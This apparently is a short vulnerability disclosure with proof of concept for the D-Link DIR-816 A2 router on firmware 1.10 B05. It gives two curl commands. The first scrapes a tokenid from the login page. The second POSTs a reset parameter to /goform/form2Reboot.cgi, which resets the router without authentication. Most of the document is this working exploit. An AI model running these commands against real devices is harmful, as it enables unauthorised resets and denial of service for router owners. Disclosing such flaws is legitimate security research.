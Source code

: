 # D-Link DIR-816 A2 Reset Router Without Authentication

**Vender** ：D-Link

**Firmware version**:1.10 B05

**Exploit Author**: GD@hillstone

**Vendor Homepage**: http://www.dlink.com.cn/

**Hardware Link**:http://support.dlink.com.cn:9000/ProductInfo.aspx?m=DIR-816

## POC

first,get the tokenid

`curl -s http://192.168.0.1/dir_login.asp | grep tokenid`



then,we could send the crafted parameter along with the token to the route:

```
curl -i -X POST http://192.168.0.1/goform/form2Reboot.cgi -d tokenid=xxxxx -d 'reset=Reset'
```

Attacker can use a API URL "/goform/form2Reboot.cgi" to reset router without authentication.


